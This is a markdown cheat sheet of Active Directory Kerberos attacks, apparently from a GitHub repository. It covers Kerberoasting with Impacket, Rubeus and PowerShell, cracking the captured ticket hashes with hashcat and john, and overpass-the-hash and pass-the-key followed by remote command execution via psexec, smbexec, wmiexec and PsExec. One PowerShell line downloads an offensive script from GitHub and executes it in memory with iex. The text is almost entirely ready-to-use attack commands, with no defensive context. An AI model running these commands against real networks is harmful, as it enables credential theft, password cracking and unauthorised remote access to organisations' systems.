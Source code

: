 
## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
